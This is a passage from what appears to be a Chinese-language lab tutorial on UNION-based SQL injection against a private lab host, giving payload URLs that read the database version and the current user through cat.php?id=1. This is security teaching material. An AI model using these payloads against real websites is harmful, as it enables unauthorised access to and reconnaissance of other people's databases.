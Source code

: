 所以可以断定，有四列。

### 4.利用union进行SQL注入
* 获取当前数据库版本号：让第二列显示为version。
```
192.168.56.4/cat.php?id=1 union select 1,@@version,3,4
```

![](images/当前数据库版本信息.PNG)

* 获取当前用户：让第二列显示为current_user()。
```
192.168.56.4/cat.php?id=1 union select 1,current_user(),3,4
```
